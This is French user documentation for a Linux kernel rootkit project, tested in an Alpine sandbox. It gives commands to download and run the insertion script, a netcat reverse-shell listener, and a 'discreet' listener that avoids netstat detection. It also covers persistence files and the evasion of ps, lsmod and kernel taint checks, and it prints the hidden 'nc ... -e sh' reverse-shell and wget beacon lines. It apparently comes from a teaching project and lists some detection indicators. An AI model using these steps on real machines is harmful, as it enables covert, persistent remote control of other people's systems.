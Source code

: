 # Documentation Utilisateur

## Mise en place d’une sandbox alpine LFS

Exécuter le script de lancement de l’Alpine LFS :

```c
./script_generate_alpine_LFS.sh
```

Une version plus rapide de ce script fonctionnant avec l’image disk.qcow2 :

```c
./script_alpine_qcow2.sh
```

Se connecter à l’alpine avec les credentials `root:root`

## Insertion du rootkit

Récupérer le script d’insertion et l’exécuter dans l’alpine

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script
chmod +x insertion_script
./insertion_script
```

Depuis la machine hôte 

```c
ip a
```

Renseigner l'IP de l'hôte au script d’insertion

## Interaction depuis la machine hôte

 

Un des processus de ce rootkit va envoyer un paquet réseau toutes les 30s.

Depuis la machine hôte on peut lancer un serveur python pour observer des logs provoqués par le rootkit :

```c
sudo python3 -m http.server 123
```

A l’insertion du module, on a : 

```c
"GET /START HTTP/1.1" 404 -
```

Toutes les 30s on a :

```c
"GET /UP HTTP/1.1" 404 -
```

Si un utilisateur sur l’alpine cherche à voir le processus qui déclenche ces logs, avec par exemple `ps`, `top`, ou un `ls` dans `/proc` le processus est kill puis relancé et on voit ce log : 

```c
"GET /RESTARTED_BECAUSE_SOMETHING_KILLED_ME HTTP/1.1" 404 -
```

Un processus du rootkit essaye d’établir un reverse shell toutes les 30s.

Depuis la machine hôte il est possible de lancer un reverse shell avec ce listener :

```c
sudo nc -lvnp 443
```

Attention lorsque la connection reverse shell est établie elle est visible via netstat depuis l’alpine, c’est pourquoi il est fourni un script python qui permet de kill la connection instantanément après avoir reçu une réponse de l’alpine.

```c
sudo python3 listener_discret.py "whoami"
```

L’utilisation de ce script python permet d’exécuter une commande sur l’alpine et de grandement diminuer les chances de se faire détecter par un netstat depuis l’alpine par rapport à la solution avec un listener classique de reverse shell. 

Il est possible de redémarrer l’alpine et le rootkit sera toujours en fonctionnement : 

```c
reboot
```

Le reboot peut prendre quelques minutes.

Il est possible de se connecter à un utilisateur qui n’a pas les droits root sur l’alpine.

Les credentials : `user:password`

## Remarques et points d’attention

Lorsque le module est inséré, vous pouvez remarquer que : 

- pas de trace dans l’historique des commandes du user root de l’insertion
- pas de log kernel “loading out of tree module taints the kernel”
- le kernel n’est pas tainted

```c
cat /proc/sys/kernel/tainted
0
```

- les processus réseaux initiés par le rootkit ne sont pas visible depuis l’alpine par un `ps` un `top` un `htop` ou plus généralement un parcours de `/proc`
- le module n’est pas visible avec `lsmod` et n’apparait pas dans `/proc/modules`

Néanmoins il est visible que :

- des kprobes sont enregistrées (visible uniquement par le user root)

```c
cbe2a877a075:~# cat /sys/kernel/debug/kprobes/list 
ffffffffad090094  k  __x64_sys_exit_group+0x4    [OPTIMIZED]
ffffffffad2b8674  k  __x64_sys_getdents64+0x4    [OPTIMIZED]
```

- Un kworker lié à notre rootkit est visible avec `ps`

```c
  626 root      0:00 [kworker/R-nfsio]
```

- les fichiers suivants, permettant la persistance de notre rootkit après un redémarrage (`reboot`), sont visibles par tous les users et peuvent permettre de compromettre notre rootkit et l’IP de l’attaquant

```c
cbe2a877a075:~# cat /etc/modules
af_packet
ipv6
ipv4
```

```c
cbe2a877a075:~# ls /lib/modules/6.10.10/extra/
ipv4.ko
```

```c
cbe2a877a075:~# cat /etc/modprobe.d/ipv4.conf 
options ipv4 param=OGLPOHFPGKPOIN
```

Le paramètre param au dessus contient l’IP renseignée lors de l’insertion du script, mais chiffrée pour éviter de compromettre trop rapidement l’IP de l’attaquant.

Un user n’ayant pas les droits root ne pourra néanmoins pas éditer ou supprimer ces fichiers pour empêcher notre persistance.

- Il est possible pour le user root de désactiver les kprobes avec :

```c
cbe2a877a075:~# echo 0 > /sys/kernel/debug/kprobes/enabled 
```

Ce qui désactive l’obfuscation de nos process.

Par exemple avec `ps` on voit désormais :

```c
  571 root      0:00 /bin/sh -c while true; do nc 192.168.95.170 443 -e sh; sle
  572 root      0:00 /bin/sh -c while true; do wget http://192.168.95.170:123/U
```

Un user n’ayant pas les droits root ne peut pas désactiver les kprobes.

- les ports de destinations ont été choisis pour paraître habituels :
    - 443 pour le reverse shell (correspond habituellement au HTTPS)
    - 123 pour les paquets réseaux envoyés avec wget (correspond habituellement avec NTP)

- Dans le cas ou la persistance n’est pas nécessaire (sur un serveur n’ayant pas à être reboot), comme elle implique d’être facilement détectable à cause des 3 fichiers listés précédemment (`/etc/modules`,`/lib/modules/$(uname -r)/extra/ipv4.ko`, `/etc/modprobe.d/ipv4.conf`) il existe un script d’insertion alternatif sans la persistance `insertion_script_without_persistence`

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script_without_persistence
chmod +x insertion_script
./insertion_script
```

L'utilisation de ce script ne permettra pas à notre rootkit d'être encore chargé après le redémarrage, mais les 3 fichiers compromettants n'existeront plus ou ne contiendront plus de traces de notre module.
